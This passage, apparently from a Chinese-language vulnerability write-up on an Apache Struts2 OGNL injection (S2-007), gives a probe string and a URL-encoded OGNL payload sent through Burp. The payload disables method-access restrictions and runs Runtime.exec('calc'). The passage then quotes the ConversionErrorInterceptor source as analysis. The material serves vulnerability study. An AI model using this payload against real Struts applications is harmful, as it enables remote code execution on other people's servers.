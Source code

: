 ```java
'+(#application)+'
```
会有回显![QQ截图20230806135801.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1691301488908-6006cc94-f4b2-4e9d-aa33-3cbf40b1c027.png#averageHue=%23fbfafa&clientId=u42baa2c3-b279-4&from=paste&height=386&id=u49599483&originHeight=483&originWidth=1189&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=27276&status=done&style=none&taskId=ud159062d-cbbb-47d5-bf21-760e5449abc&title=&width=951.2)<br />burp上发送
```java
%27+%2B+%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew+java.lang.Boolean%28%22false%22%29+%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27calc%27%29.getInputStream%28%29%29%29+%2B+%27
```
<a name="vSUE4"></a>
## 分析
com.opensymphony.xwork2.interceptor.ConversionErrorInterceptor
```java
public String intercept(ActionInvocation invocation) throws Exception {

        ActionContext invocationContext = invocation.getInvocationContext();
        Map<String, Object> conversionErrors = invocationContext.getConversionErrors();
        ValueStack stack = invocationContext.getValueStack();

        HashMap<Object, Object> fakie = null;

        for (Map.Entry<String, Object> entry : conversionErrors.entrySet()) {
            String propertyName = entry.getKey();
            Object value = entry.getValue();

            if (shouldAddError(propertyName, value)) {
                String message = XWorkConverter.getConversionErrorMessage(propertyName, stack);

                Object action = invocation.getAction();
                if (action instanceof ValidationAware) {
                    ValidationAware va = (ValidationAware) action;
                    va.addFieldError(propertyName, message);
                }

                if (fakie == null) {
                    fakie = new HashMap<Object, Object>();
                }

                fakie.put(propertyName, getOverrideExpr(invocation, value));
            }
        }

        if (fakie != null) {
            // if there were some errors, put the original (fake) values in place right before the result
            stack.getContext().put(ORIGINAL_PROPERTY_OVERRIDE, fakie);
            invocation.addPreResultListener(new PreResultListener() {
                public void beforeResult(ActionInvocation invocation, String resultCode) {
                    Map<Object, Object> fakie = (Map<Object, Object>) invocation.getInvocationContext().get(ORIGINAL_PROPERTY_OVERRIDE);

                    if (fakie != null) {
                        invocation.getStack().setExprOverrides(fakie);
                    }
                }
            });
        }
        return invocation.invoke();
```